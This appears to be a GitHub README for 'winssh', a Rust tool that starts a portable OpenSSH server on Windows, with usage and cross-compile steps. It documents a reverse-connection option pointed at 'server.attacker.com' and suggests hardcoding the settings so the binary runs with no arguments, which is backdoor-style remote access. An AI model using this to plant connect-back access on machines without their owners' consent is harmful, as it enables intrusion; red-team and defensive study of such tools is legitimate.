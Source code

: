 # winssh

Spawns a ssh server on windows. No installation required.
Based on https://github.com/PowerShell/Win32-OpenSSH/

## usage

When launched without arguments, `winssh.exe` default to start an OpenSSH server on port 127.0.0.1:8022.
You can specify a port using:
```
winssh.exe --port <port>

You can also specify a server to connect back to using:

```
winssh.exe --server server.attacker.com
```

Or you can modify the source to hardcode the default values for port and server resulting in a binary,
that will execute witout any commandline args.

On every build new keys will be generated. After starting the server you can use the "key" from the files directory.
The key `key-reverse` from the files directory is used to connect back to the remote server (if specified).

## compile

```
rustup target add x86_64-pc-windows-gnu
rustup toolchain install stable-x86_64-pc-windows-gnu
```

Windows:
```
cargo build --release --target x86_64-pc-windows-gnu
```

To reduce the filesize further, you can strip the binaries with `strip`.
